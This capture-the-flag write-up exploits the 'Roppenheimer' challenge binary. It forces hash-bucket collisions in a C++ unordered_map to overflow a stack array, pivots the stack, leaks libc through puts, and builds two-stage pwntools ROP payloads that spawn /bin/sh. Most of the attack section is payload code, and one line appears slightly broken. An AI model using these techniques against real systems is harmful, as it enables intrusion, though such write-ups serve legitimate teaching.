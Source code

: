 # Roppenheimer
The Roppenheimer binary has no canaaries and is no-pie. It says so in the comment!
```c
// g++ roppenheimer.cpp -o roppenheimer -fno-stack-protector -no-pie
```

There are two global variables of interest
```c
char username[NAME_LEN + 1];
std::unordered_map<unsigned int, uint64_t> atoms;
```

The vulnerable function is the `fire_neutron` function
```c
void fire_neutron() {
    unsigned int atom;
    std::cout << "atom> ";
    std::cin >> atom;

    if (atoms.find(atom) == atoms.end()) {
        panic("atom does not exist");
    }

    size_t bucket = atoms.bucket(atom);
    size_t bucket_size = atoms.bucket_size(bucket);

    std::pair<unsigned int, uint64_t> elems[MAX_COLLIDE - 1];
    copy(atoms.begin(bucket), atoms.end(bucket), elems);

    std::cout << "[atoms hit]" << std::endl;
    for (size_t i = 0; i < bucket_size; i++) {
        std::cout << elems->first << std::endl;
    }
}
```

Here we have the `elems` array object which is fixed size (19 elements), but we're copying
in all elements in the given bucket. Which leads to the main question: "What is the maximum
number of atoms that can be in a given bucket?"

The main modification of the `atoms` map is as follows:

```c
void add_atom() {
    if (atoms.size() >= MAX_ATOMS) {
        panic("atom capacity reached");
    }

    unsigned int atom;
    std::cout << "atom> ";
    std::cin >> atom;

    if (atoms.find(atom) != atoms.end()) {
        panic("atom already exists");
    }

    uint64_t data;
    std::cout << "data> ";
    std::cin >> data;

    atoms[atom] = data;
}
```

So we can directly control the value of the keys. In C++, the `unordered_map` is a
hash table which has linked lists behind each bucket. The choice of bucket is simply

```c
   selected_bucket = hash(input) % num_buckets;
```

In the case of `unsigned int` the `hash` function specialized to be simply the identity.

The number of buckets is chosen strictly on the number of items *total* in the hashmap.
Since we plan on using all 32 atoms, we can experimentally determine that the unordered_map
will have 59 buckets. Thus by choosing multiples of 59 as our atom number, we can ensure
that all atoms (and their data) are put in the same bucket. This will overload the array,
and push data we control into the return pointer. We can experimentally determine
the exact position of a given atom on the stack (this is easier than trying to
statically work it out after rehashes).

We don't have too much room on the stack, however, we are given a `useful` gadget

```c
void useful() {
    __asm__(
        "pop %rax;"
        "pop %rsp;"
        "pop %rdi;"
    );
}
```

It would be rude not to use it. This gadget allows us to reposition the stack to
a location we control. At the beginning of the program, we are allowed to set
the unername to an arbitrary 127 bytes (remember fgets reads 1 less than the argument)
and put a null byte after that. So we reposition the stack to there.

The basic strategy is to leak the location of libc (by printing the got location of `puts`),
then have our attack script use that to feed in a final payload that will use that information
to invoke `execve`.

The main complication is that `fgets` requires `rdx` to be stdin. This is fortunately
at a known location, but the gadgets we have to work with make this annoying.

```python
name_payload = (
    # puts puts to obtain libc location
    pwn.p64(0x4025e0) + # pop rdi, pop rbp
        pwn.p64(puts_got) + #0x8
        pwn.p64(0x40a180) + #16 (stdout used later) 
    pwn.p64(puts_plt) +     #24
    # setup rdx and rdi for `fgets` invocation. 
    pwn.p64(0x4025de) +     #32
        pwn.p64(username) +  #rax (need rax to be a valid write memory location for next gadget)
        pwn.p64(username + 56) + #rsp (this points to the next gadget, i.e. 7*8)
        pwn.p64(username + 16*0x8 - 8) + # rdi, we want this to point to the stack location immediately after
                                         # the fgets invocation, to continue control of the stack.
        pwn.p64(0x40a190 + 0x10) + #rbp
    pwn.p64(0x4043d8) + # mov rdx, qword ptr [rbp - 0x10] ; mov qword ptr [rax], rdx ; nop ; pop rbp ; ret
        pwn.p64(0x0) +
    # setup rsi
    pwn.p64(0x404944) + # pop rsi ; pop rbp
        pwn.p64(0x100) +
        pwn.p64(0x0) +
    pwn.p64(elf.symbols["fgets"]) + 
    nop # target of fgets
)
```

Annoyingly, when we invoked `fire_neutron` with `0`, `cin` leaves the newline in the stdin buffer
to be consumed by `fgets`. This would immediately stop `fgets` from parsing our input, so instead
of terminating our initial input with a newline, we send a space instead. On our call to fgets,
we complete this input with a ROP gadget that address ends (starts) with `0x20` that does nothing.

```sh
0x0000000000402520 : endbr64 ; ret
```

With that annoyance out of the way, we proceed with

```python
final_payload = (b"\x25\x40"+b"\x00"*5+
    nop+ # stack alignment
    pwn.p64(0x4025e0) +
        pwn.p64(username + 42*0x8) +
        pwn.p64(0x0) +
    pwn.p64(0x4025de) +     #32
        pwn.p64(username) +  #rax
        pwn.p64(username + 16*0x8+0x8*7) + #rsp
        pwn.p64(username + 42*0x8) + # rdi - location of /bin/sh
        pwn.p64(username + 0x8*16 + 0x8*5) + #rbp
    pwn.p64(0x4043d8) + # mov rdx, qword ptr [rbp - 0x10] ; mov qword ptr [rax], rdx ; nop ; pop rbp ; ret
        pwn.p64(0x0) +
    pwn.p64(0x0000000000404944) + 
        pwn.p64(0x0) + 
        pwn.p64(0x0) + 
    nop*10 + # Probably unneccesary, used for bookeeping
    (0xeb0f0 + libc_base) + # offset of `execve`, libc_base computed from previously
                            # emitted value of `puts` from first stage.      
    nop + 
    b"/bin/sh\x00")
```

Here we put the `/bin/sh` directly onto the "stack" and reference it. `rsi` and `rdx` need to be set to zero.

Sending these payloads grants us a shell.

## Annoying Side Notes:
A lot of the memory below `username` is actually important variables related to `stdin`, `stdout`, `cin` and `cout`.
Re-entry into main or other functions runs the risk of corrupting them. I ended up just using `fgets` and hoped
that I mostly didn't corrupt anything I'd need later. 

Using `system` would be simpler (only need rdi!), but it looks like something gets corrupted and prevents its use.